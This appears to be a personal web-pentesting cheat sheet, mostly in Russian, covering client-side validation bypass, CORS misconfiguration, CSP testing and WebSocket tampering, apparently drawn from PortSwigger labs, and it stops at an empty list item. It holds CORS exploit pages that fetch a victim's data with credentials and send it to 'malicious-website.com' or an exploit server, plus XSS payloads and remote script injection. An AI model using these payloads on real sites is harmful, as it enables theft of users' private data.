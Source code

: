 # Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication

# DFD
Через консоль или скачать приложение и добавить в код `debugger;`
Понять точки ввода и точки вывода (отображения)
Определить где проводится санитизация и валидация
    Добавить <h1></h2> теги проверить отображается
    Добавить `< : ? / "` символ проверить какие симловы преобразованы
Проверить валидация и санитизация происходит до отправки данных на сервер (те на фронте)
Если на фронте - понять как это можно обойти:
- использовать прокси для перехвата и модификации данных
- переопределить поведение функции в консоли браузера `function vulnerableFunction(){console.log(h3cker);}`
https://crunchify.com/how-to-refresh-div-content-without-reloading-page-using-jquery-and-ajax/
- переопределить поведение переменной в консоли браузера
- переопределить DOM в консоли браузера
```
document.body.innerHTML // вывести страницу в консоль
// внедрить свой скрипт на страницу
var s = document.createElement('script');
s.src = 'http://path/to/script.js'; // браузер попытается загрузить через http
document.body.appendChild(s);
```

- использовать расширения браузера (https://www.tampermonkey.net/) или написать свое
# DAST
Fuzzing

# CORS
Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера
#### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
<img src="../Media/cors-vulnerability-with-basic-origin-reflection.png" alt="drawing" width="150"/>
```html
<html><body><script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='//malicious-website.com/log?key='+this.responseText;
        };
</script></body></html>
```

```html
<html>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','X.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
        </script>"></iframe>
</html>
```

#### Exploiting XSS via CORS trust relationship
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
>>> GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-XSS-website.com
Cookie: sessionid=...

<<< HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-XSS-website.com
Access-Control-Allow-Credentials: true
```
Exploit:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

# CSP
Test payload for test SCP. Or use https://csp-evaluator.withgoogle.com/
Risks: XSS, Clickjacking, Injection

```js
# Basic
eval("alert('Hello World')");

# Test script-src:
var script = document.createElement('script');
script.src = 'https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js';
document.head.appendChild(script);

# Test img-src:
var img = document.createElement('img');
img.src = 'http://l.yimg.com/a/i/us/nws/weather/gr/30d.png';
document.body.appendChild(img);

# Test style-src:
var style = document.createElement('style');
style.innerHTML = '@import url(http://yui.yahooapis.com/pure/0.5.0/pure-min.css);';
document.head.appendChild(style);

# addEventListener
window.addEventListener('securitypolicyviolation', function(event) {
  console.log('CSP Violation:', event.message);
}, true);
```

# WebSocket
1. Intercepting and modifying WebSocket messages
{"message":"Test"} => <td>Test</td>
{"message":"<img src=1 onerror='alert(1)'>"} => alert(1) XSS

2. Manipulating the WebSocket handshake to exploit vulnerabilities
add via proxy headers: `X-Forwarded-For` `Origin` `Referer` in order to avoid \ break logic.

3. 